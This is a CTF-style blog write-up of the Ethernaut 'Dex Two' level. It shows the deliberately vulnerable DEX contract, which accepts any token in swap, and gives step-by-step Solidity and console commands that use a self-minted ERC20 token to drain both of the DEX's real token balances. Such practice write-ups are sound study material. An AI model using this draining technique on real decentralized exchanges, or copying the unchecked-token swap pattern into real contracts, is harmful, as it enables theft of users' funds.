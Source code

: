 ```yaml
---
layout: post
title: Ethernaut - 23. Dex Two
date:  2022-08-30
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
>As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.<br />
Just because a contract claims to implement the ERC20 spec does not mean it's trust worthy.<br />
Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See Missing return value bug - At least 130 tokens affected.<br />
Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.<br />
If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Writeup
1. Get new instance.
2. Create a ERC20 contract. 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/IERC20.sol";
    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/ERC20.sol";

    contract MyToken is ERC20 {
      constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
            _mint(msg.sender, initialSupply);
      }
    }
    ```
2. Compile & Deploy
    <img src="https://i.imgur.com/P8R2Qv6.png" alt="remix" style="width:300px;"/>
3. Approve & Transfer
    <img src="https://i.imgur.com/i2cqcVJ.png" alt="remix2" style="width:400px;" />
4. Store addresses to `const` (in console)
    ``` javascript

    const t1 = await contract.token1()
    const t2 = await contract.token2()
    const myToken = 'YOUR_MYTOKEN_CONTRACT_ADDRESS'

    ```
5. Get balance
    ``` javascript

    await contract.balanceOf(t1, contract.address).then(v=>v.toString())
    // 100

    await contract.balanceOf(t2, contract.address).then(v=>v.toString())
    // 100

    await contract.balanceOf(myToken, contract.address).then(v=>v.toString())
    // 100

    ```
6. Swap 
    ``` javascript

    await contract.swap(myToken, t1, 100)

    await contract.balanceOf(myToken, contract.address).then(v=>v.toString())
    // 200

    await contract.getSwapAmount(myToken, t2, 200).then(v=>v.toString())
    // 100 
    // we can swap all myToken to get all t2 token!

    await contract.swap(myToken, t2, 200);

    ```
7. Check tokens' balance
    ``` javascript

    await contract.balanceOf(t1, contract.address).then(v=>v.toString())
    // '0'

    await contract.balanceOf(t2, contract.address).then(v=>v.toString())
    // '0'

    ```
8. Submit instance ξ( ✿＞◡❛)